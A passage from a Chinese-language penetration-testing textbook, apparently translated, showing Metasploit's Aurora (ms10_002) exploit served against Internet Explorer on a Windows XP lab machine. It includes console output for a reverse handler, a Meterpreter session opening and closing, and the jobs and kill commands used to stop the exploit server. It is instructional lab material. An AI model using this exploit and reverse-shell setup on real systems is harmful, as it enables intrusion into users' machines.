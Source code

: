 ```
[*] Started reverse handler on 192.168.20.9:4444 ❶
[*] Using URL: http://192.168.20.9:80/aurora ❷
[*] Server started.
```

正如你在 示例 10-3 中看到的，一旦我们设置了选项并运行该模块，后台将在所选的 `SRVPORT` 上启动一个 Web 服务器，并在所选的 `URIPATH` 下显示 ❷ 所示内容。此外，还会为所选的有效载荷设置处理程序 ❶。

现在我们将使用 Windows XP 目标机器上的 Internet Explorer 浏览器访问恶意网站。在 Metasploit 中，你应该看到页面已经被服务，并且正在尝试利用漏洞，如 示例 10-4 所示。尽管我们的 Windows XP 浏览器存在漏洞，但可能需要尝试几次才能成功利用浏览器。

利用 Aurora 漏洞并不像我们在本书中讨论的其他漏洞那样可靠。如果 Internet Explorer 崩溃，但你没有收到会话，尝试再次浏览到漏洞页面。

示例 10-4. 接收客户端会话

```
msf  exploit(ms10_002_aurora) > [*] 192.168.20.10      ms10_002_aurora -
Sending Internet Explorer "Aurora" Memory Corruption
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 1 opened (192.168.20.9:4444 -> 192.168.20.10:1376) at
2015-05-05 20:23:25 -0400 ❶
```

尽管这个漏洞利用可能不是每次都能成功，目标浏览器存在漏洞，尝试几次应该能够成功。如果漏洞利用成功，你将获得一个会话，如 ❶ 所示。我们不会自动进入会话。使用 **`sessions -i`** `<session id>` 来与 Meterpreter 会话交互。

尽管我们已经成功利用了浏览器并在目标系统上获得了立足点，但我们的挑战并未结束。如果你回到 Windows XP 机器并尝试继续使用 Internet Explorer，你会发现它不再工作。获取会话的过程中涉及的利用操作已经使浏览器无法使用。对我们来说的问题是，那些被诱骗访问我们恶意网站的用户自然会希望继续使用浏览器。他们可能会强制退出浏览器，或者浏览器可能因其不稳定状态而自行崩溃。当浏览器关闭时，我们会失去 Meterpreter 会话。

```
msf  exploit(ms10_002_aurora) > [*] 192.168.20.10 - Meterpreter session 1 closed.  Reason: Died❶
```

我们的 Meterpreter 有效载荷完全存在于被利用进程的内存中。如果浏览器崩溃或被用户关闭，我们的会话也会随之终止，如 ❶ 所示。我们可以像获得立足点一样迅速失去对系统的控制。

我们需要一种方法保持 Meterpreter 会话存活，即使被利用的进程——在这个例子中是 Internet Explorer 浏览器——终止。但首先，我们需要停止 Metasploit 网络服务器，以便我们可以对恶意页面进行一些修改，解决这个问题，如 示例 10-5 所示。

示例 10-5. 在 Metasploit 中终止后台作业

```
msf  exploit(ms10_002_aurora) > **jobs**❶

Jobs
====

  Id  Name
  --  ----
  0   Exploit: windows/browser/ms10_002_aurora

msf  exploit(ms10_002_aurora) > **kill 0**❷
Stopping job: 0...

[*] Server stopped.
```
